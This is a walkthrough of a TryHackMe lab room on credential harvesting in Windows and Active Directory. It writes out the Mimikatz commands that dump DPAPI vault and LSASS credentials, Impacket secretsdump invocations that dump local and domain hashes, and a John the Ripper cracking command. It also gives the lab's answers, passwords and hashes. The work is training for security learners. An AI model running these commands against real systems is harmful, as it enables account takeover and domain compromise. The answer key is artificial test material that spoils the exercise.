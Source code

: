 # [Intro to Credential Harvesting - TryHackMe](https://tryhackme.com/room/introtocredentialharvesting) | Cyanyde

Learn how credentials are stored, cached, and exposed in Windows and Active Directory environments.

## Credits

- Room type: Premium
- Created by [tryhackme](https://tryhackme.com/p/tryhackme) and [DrGonz0](https://tryhackme.com/p/DrGonz0)

## Windows & Active Directory Credential Stores

#### Provided Credentials

- User: Administrator
- Pass: N3w34829DJdd?1

### Which Windows component stores active NTLM and Kerberos credentials in memory?

> NTLM and Kerberos credentials are stored in **LSASS** memory

### What file in the C:\Windows\NTDS\ directory contains the AD database?

> The **NTDS.dit** file contains the AD database

### Which Mimikatz command exports DPAPI Vault credentials?

> **vault::cred /export** exports DPAPI vault credentials with Mimikatz

## Credential Extraction with Mimikatz

### What is Elon Tusk's Gmail password?

- RDP into first target machine using provided credentials
- *mimikatz* is provided on the desktop and *Windows Defender* is disabled
- Open powershell as administrator and run *mimikatz*
    - `.\mimikatz.exe`
    - `vault::list` to show available vaults on the system
    - `vault::cred /export` to display credentials

> Elon Tusk's Gmail password is **MyTusksAreThaB3st**

### What is svc-app's password?

- `sekurlsa::logonpasswords` within mimikatz will dump credentials stored within LSASS memory

> svc-app's password is **S3rv!c3Acc!**

## Credential Harvesting with Secretsdump

### What is drgonzo's password?

- Use *secretsdump.py* from the [Impacket](https://github.com/fortra/impacket) python module
    - `secretsdump.py WRK/Administrator:N3w34829DJdd?1@<target ip> -output local_dump` will dump the local hashes of the Domain Controller
- drgonzo's password hash information is: `TRYHACKME.LOC/drgonzo:$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f:`
- Crack using *hashcat* or *johntheripper*
    - Shorten the hash to just the password
        - `:$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f:`
    - `john --format=mscash2 hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar` to use johntheripper with the *rockyou* wordlist, specifying the *mscash2* format

> drgonzo's password is **lasvegas1**

### What is the domain Administrators NTLM hash?

- Use the credentials for drgonzo to rerun *secretsdump.py* as domain admin
    - `secretsdump.py TRYHACKME/drgonzo:lasvegas1@10.220.10.10 -just-dc -output dc_dump`

> The domain Administrator's NTLM hash is **:$DCC2$10240#Administrator#ea671e1143604bb87c6d48f6b5475c08:**